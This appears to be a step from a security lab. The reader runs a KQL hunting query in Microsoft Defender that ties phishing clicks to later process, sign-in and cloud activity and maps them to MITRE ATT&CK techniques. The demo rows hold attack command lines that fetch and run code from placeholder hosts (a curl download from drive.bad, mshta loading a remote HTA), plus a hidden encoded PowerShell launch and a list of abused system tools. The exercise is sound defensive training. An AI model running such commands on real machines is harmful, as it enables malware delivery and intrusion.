

## Task 05: Map intrusion activity to MITRE ATT&CK techniques

1. In the leftmost pane, select **Investigation & response** > **Hunting** > **Advanced hunting**.

1. Copy the following KQL into the query window, then select **Run query**.

    <details markdown='block'>
    <summary>
    Expand here to copy KQL-5.txt
    </summary>

    ```
    // = Parameters =
    let lookback = 7d;
    let window_after_click_for_exec = 2h;
    let window_before_click_for_signins = 30m;
    let suspicious = dynamic(["powershell.exe","wscript.exe","mshta.exe","rundll32.exe","regsvr32.exe","cmd.exe","curl.exe","wget.exe","bitsadmin.exe","cscript.exe"]);
    
    // = 1) Safe Links clicks (REAL) =
    let Clicks_real =
        UrlClickEvents
        | where Timestamp > ago(lookback)
        | where ActionType == "ClickAllowed" or IsClickedThrough == true
        | where ThreatTypes has_any ("Phish","Malware")
        | extend UrlHost = tostring(parse_url(Url).Host)
        | project ClickTime=Timestamp, AccountUpn, Url, UrlHost, NetworkMessageId, ClickReportId=ReportId, ClickIP=IPAddress;
    
    // ---- Demo with 4 rows (use minutes in ago()) ----
    let Clicks_demo =
        (print ClickTime=ago(360m), AccountUpn="alex.johnson@contoso.com",   Url="https://phish.bad/secure-login", UrlHost="phish.bad",   NetworkMessageId="demo-mid-001", ClickReportId="90001", ClickIP="198.51.100.55")
        | union (print ClickTime=ago(180m), AccountUpn="steph.lee@contoso.com",   Url="https://drive.bad/share?id=123",  UrlHost="drive.bad",  NetworkMessageId="demo-mid-002", ClickReportId="90002", ClickIP="203.0.113.77")
        | union (print ClickTime=ago(105m), AccountUpn="sergio.ramos@contoso.com", Url="https://login.bad/otp",           UrlHost="login.bad",  NetworkMessageId="demo-mid-003", ClickReportId="90003", ClickIP="198.51.100.88")
        | union (print ClickTime=ago(50m),  AccountUpn="jamie.chen@contoso.com",   Url="https://secure.bad/pwd-reset",    UrlHost="secure.bad", NetworkMessageId="demo-mid-004", ClickReportId="90004", ClickIP="203.0.113.99");
    
    let use_real_clicks = toscalar(Clicks_real | summarize n=count()) > 0;
    let Clicks = union (Clicks_real | where use_real_clicks), (Clicks_demo | where not(use_real_clicks));
    
    // = 2) Email context (REAL) =
    let Msg_real =
        EmailEvents
        | where Timestamp > ago(lookback)
        | project NetworkMessageId, Subject, SenderFromAddress, RecipientEmailAddress, DeliveryAction, DeliveryLocation, EmailThreatTypes=ThreatTypes;
    // ---- Demo (4 rows) ----
    let Msg_demo =
        (print NetworkMessageId="demo-mid-001", Subject="Invoice review required", SenderFromAddress="vendor.ap@badco.example", RecipientEmailAddress="alex.johnson@contoso.com",  DeliveryAction="Delivered", DeliveryLocation="Inbox/Finance",    EmailThreatTypes="Phish")
        | union (print NetworkMessageId="demo-mid-002", Subject="Project files update",      SenderFromAddress="share@files.bad",     RecipientEmailAddress="steph.lee@contoso.com", DeliveryAction="Delivered", DeliveryLocation="Inbox/Projects",     EmailThreatTypes="Phish")
        | union (print NetworkMessageId="demo-mid-003", Subject="MFA reset needed",         SenderFromAddress="it-support@contoso-secure.com", RecipientEmailAddress="sergio.ramos@contoso.com", DeliveryAction="Delivered", DeliveryLocation="Inbox/IT",   EmailThreatTypes="Phish")
        | union (print NetworkMessageId="demo-mid-004", Subject="Password expiry notice",   SenderFromAddress="noreply@secure.bad",  RecipientEmailAddress="jamie.chen@contoso.com", DeliveryAction="Delivered", DeliveryLocation="Inbox/Security",     EmailThreatTypes="Phish");
    let use_real_msg = toscalar(Msg_real | summarize n=count()) > 0;
    let Msg = union (Msg_real | where use_real_msg), (Msg_demo | where not(use_real_msg));
    
    // = 3) Attachment context (REAL) =
    let Att_real =
        EmailAttachmentInfo
        | where Timestamp > ago(lookback)
        | project NetworkMessageId, AttachmentName=FileName, AttachmentSHA256=SHA256, AttachmentThreatTypes=ThreatTypes;
    // ---- Demo (4 rows) ----
    let Att_demo =
        (print NetworkMessageId="demo-mid-001", AttachmentName="invoice.htm",     AttachmentSHA256="", AttachmentThreatTypes="")
        | union (print NetworkMessageId="demo-mid-002", AttachmentName="share_link.url", AttachmentSHA256="", AttachmentThreatTypes="")
        | union (print NetworkMessageId="demo-mid-003", AttachmentName="mfareport.pdf",  AttachmentSHA256="", AttachmentThreatTypes="")
        | union (print NetworkMessageId="demo-mid-004", AttachmentName="notice.htm",     AttachmentSHA256="", AttachmentThreatTypes="");
    let use_real_att = toscalar(Att_real | summarize n=count()) > 0;
    let Att = union (Att_real | where use_real_att), (Att_demo | where not(use_real_att));
    
    // = 4) Post-click device executions (DEMO ONLY; no Device* tables) =
    let PostExec =
        (print DPE_Time=ago(340m), DeviceName="PC-001.contoso.com", FileName="powershell.exe", ProcessCommandLine="powershell -nop -w hidden -enc ...", InitiatingProcessFileName="outlook.exe", InitiatingProcessCommandLine="outlook.exe /safe",              AccountUpn="alex.johnson@contoso.com")
        | union (print DPE_Time=ago(160m), DeviceName="PC-245.contoso.com", FileName="cmd.exe",        ProcessCommandLine="cmd /c curl http://drive.bad/a.exe -o %TEMP%\\a.exe", InitiatingProcessFileName="winword.exe", InitiatingProcessCommandLine="winword.exe     /safe", AccountUpn="steph.lee@contoso.com")
        | union (print DPE_Time=ago(90m),  DeviceName="PC-517.contoso.com", FileName="mshta.exe",      ProcessCommandLine="mshta http://login.bad/sso.hta",                       InitiatingProcessFileName="outlook.exe", InitiatingProcessCommandLine="outlook.exe    /Embedding", AccountUpn="sergio.ramos@contoso.com")
        | union (print DPE_Time=ago(45m),  DeviceName="PC-333.contoso.com", FileName="rundll32.exe",   ProcessCommandLine="rundll32.exe javascript:\"\\..\"",                     InitiatingProcessFileName="outlook.exe", InitiatingProcessCommandLine="outlook.exe    /safe",      AccountUpn="jamie.chen@contoso.com");
    
    // = 5) Identity sign-ins around click (REAL) =
    let IdLogons_real =
        IdentityLogonEvents
        | where Timestamp > ago(lookback)
        | project IDE_Time=Timestamp, AccountUpn, IdentityApplication=Application, LogonType, Location, IdentityIP=IPAddress, FailureReason;
    // ---- Demo (4 rows) ----
    let IdLogons_demo =
        (print IDE_Time=ago(350m), AccountUpn="alex.johnson@contoso.com",   IdentityApplication="Office 365 Exchange Online", LogonType="Interactive Logon", Location="Seattle, United States", IdentityIP="198.51.100.55", FailureReason="")
        | union (print IDE_Time=ago(170m), AccountUpn="steph.lee@contoso.com", IdentityApplication="SharePoint Online",         LogonType="Interactive Logon", Location="Auckland, New Zealand",   IdentityIP="203.0.113.77",  FailureReason="")
        | union (print IDE_Time=ago(100m), AccountUpn="sergio.ramos@contoso.com", IdentityApplication="Microsoft Teams",       LogonType="Interactive Logon", Location="Sydney, Australia",       IdentityIP="198.51.100.88", FailureReason="")
        | union (print IDE_Time=ago(48m),  AccountUpn="jamie.chen@contoso.com", IdentityApplication="Office 365 Exchange Online", LogonType="Interactive Logon", Location="Melbourne, Australia", IdentityIP="203.0.113.99", FailureReason="");
    let use_real_id = toscalar(IdLogons_real | summarize n=count()) > 0;
    let IdLogons = union (IdLogons_real | where use_real_id), (IdLogons_demo | where not(use_real_id));
    
    // = 6) Cloud app activity (REAL) =
    let Cloud_real =
        CloudAppEvents
        | where Timestamp > ago(lookback)
        | project CAE_Time=Timestamp, CloudApplication=Application, ActionType, AccountId, CloudIP=IPAddress, ObjectName;
    // ---- Demo (4 rows) ----
    let Cloud_demo =
        (print CAE_Time=ago(355m), AccountId="alex.johnson@contoso.com",  CloudApplication="Box",          ActionType="FileDownloaded", CloudIP="198.51.100.55", ObjectName="/Finance/Q4.xlsx")
        | union (print CAE_Time=ago(175m), AccountId="steph.lee@contoso.com", CloudApplication="Google Drive",  ActionType="FileDownloaded", CloudIP="203.0.113.77",  ObjectName="/Projects/Plan.docx")
        | union (print CAE_Time=ago(95m),  AccountId="sergio.ramos@contoso.com", CloudApplication="Dropbox",     ActionType="AppOAuthConsent", CloudIP="198.51.100.88", ObjectName="Third-party OAuth consent")
        | union (print CAE_Time=ago(49m),  AccountId="jamie.chen@contoso.com",  CloudApplication="OneDrive",     ActionType="FileUploaded",    CloudIP="203.0.113.99",  ObjectName="/Security/PasswordReset.csv");
    let use_real_cloud = toscalar(Cloud_real | summarize n=count()) > 0;
    let Cloud = union (Cloud_real | where use_real_cloud), (Cloud_demo | where not(use_real_cloud));
    
    // = 7) Storyboard join (apply time windows AFTER joins) =
    Clicks
    | join kind=leftouter Msg on NetworkMessageId
    | join kind=leftouter Att on NetworkMessageId
    | join kind=leftouter PostExec on AccountUpn
    | join kind=leftouter IdLogons on AccountUpn
    | join kind=leftouter Cloud on $left.AccountUpn == $right.AccountId
    // Time windows (ClickTime now in scope)
    | where isnull(DPE_Time) or (DPE_Time between (ClickTime .. ClickTime + window_after_click_for_exec))
    | where isnull(IDE_Time) or (IDE_Time between (ClickTime - window_before_click_for_signins .. ClickTime + window_after_click_for_exec))
    | where isnull(CAE_Time) or (CAE_Time between (ClickTime - window_before_click_for_signins .. ClickTime + window_after_click_for_exec))
    | project
        ClickTime, AccountUpn,
        SenderFromAddress, RecipientEmailAddress, Subject,
        Url, UrlHost,
        DeliveryAction, DeliveryLocation, EmailThreatTypes,
        AttachmentName, AttachmentSHA256,
        DeviceName, DPE_Time, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine,
        IDE_Time, IdentityApplication, LogonType, Location, IdentityIP,
        CAE_Time, CloudApplication, ActionType, ObjectName,
        ClickIP, ClickReportId
    | order by AccountUpn asc, ClickTime asc, DPE_Time asc, IDE_Time asc, CAE_Time asc
    ```
    </details>

    

    {: .note }
    > Each row represents an ATT&CK event with:
    > - **Tactic & Technique**
    > - **Step description**
    > - **Evidence**: URL, file, object, consent grant, etc.

    >**Mapped MITRE techniques in this scenario**:
    > - **T1566.002** – Spearphishing Link  
    > - **T1059.001** – PowerShell  
    > - **T1059.003** – Windows Command Shell  
    > - **T1218.005 / .011** – Mshta / Rundll32  
    > - **T1528** – Steal App Token (illicit OAuth)  
    > - **T1567.002** – Exfiltration over Web Services (Box/OneDrive)

